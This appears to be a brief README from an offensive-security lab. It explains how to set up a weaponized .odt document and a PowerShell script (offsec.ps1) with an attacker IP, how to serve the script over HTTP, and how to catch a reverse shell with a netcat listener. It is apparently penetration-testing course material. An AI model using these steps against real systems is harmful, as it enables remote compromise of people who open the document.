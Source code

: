 # Instructions
#### 1 - Update .odt file with Kali Station LHOST_IP (keep port 80)
#### 2 - Update offsec.ps1 with Kali Station LHOST_IP and LPORT
#### 3 - Start python server in offsec.ps1 directory: python3 -m http.server 80
#### 4 - Start nc listener: nc -nlvp LPORT

